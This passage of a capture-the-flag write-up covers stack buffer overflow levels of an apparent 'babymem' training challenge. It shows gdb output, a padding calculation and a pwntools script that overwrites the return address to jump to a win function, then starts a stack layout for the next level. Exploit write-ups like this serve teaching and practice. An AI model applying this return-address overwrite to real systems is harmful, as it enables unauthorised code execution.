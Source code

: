 * As we can see the return address is `main+238` and it is located at `0x7ffd98ad73d8`.
* We want to replace this value with the address of the `win` function.

```
gef➤  disass win
Dump of assembler code for function win:
   0x0000000000401958 <+0>:     endbr64 
; -- snip --
```

* As we can see the win function starts at `0x0000000000401958`.
* We now have the information we need:
  * [x] Location of buffer: `0x7ffd98ad7380`.
  * [x] Location of stored return address: `0x7ffd98ad73d8`.
  * [x] Address of win function: `0x0000000000401958`.
* Let's calculate the padding required.

```
gef➤  p/d 0x7ffd98ad73d8 - 0x7ffd98ad7380
$3 = 88
```

* We can now create our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x0000000000401958)

p = process('/challenge/babymem_level4.1')
p.recvuntil('size:')
p.sendline('-1')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 6.0

> Overflow a buffer and smash the stack to obtain the flag, but this time bypass another check designed to prevent you from doing so!

* In this level, the `win_authed` function checks if it's argument is `0x1337`. If it isn't, we don't get the flag.
* For now, instead of trying to pass it, we will just skip over this check.

```
            +---------------------------------+-------------------------+--------------------+
            |                  Stack location |            Data (bytes) |      Data (LE int) |
	    +---------------------------------+-------------------------+--------------------+
sp -------> | 0x00007ffe14fb8750 (rsp+0x0000) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
            | 0x00007ffe14fb8758 (rsp+0x0008) | e8 98 fb 14 fe 7f 00 00 | 0x00007ffe14fb98e8 |
            | 0x00007ffe14fb8760 (rsp+0x0010) | d8 98 fb 14 fe 7f 00 00 | 0x00007ffe14fb98d8 |
            | 0x00007ffe14fb8768 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
            | 0x00007ffe14fb8770 (rsp+0x0020) | a0 34 20 fa 38 7f 00 00 | 0x00007f38fa2034a0 |
            | 0x00007ffe14fb8778 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
	    | 0x00007ffe14fb8780 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \
	    | 0x00007ffe14fb8788 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  |------ buffer
	    | 0x00007ffe14fb8790 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  |
	    | 0x00007ffe14fb8798 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | /
  	    | 0x00007ffe14fb87a0 (rsp+0x0050) | d0 11 40 00 00 00 00 00 | 0x00000000004011d0 |
	    | 0x00007ffe14fb87a8 (rsp+0x0058) | 80 87 fb 14 fe 7f 00 00 | 0x00007ffe14fb8780 |
bp -------> | 0x00007ffe14fb87b0 (rsp+0x0060) | e0 97 fb 14 fe 7f 00 00 | 0x00007ffe14fb97e0 | <------- saved bp of previous frame
```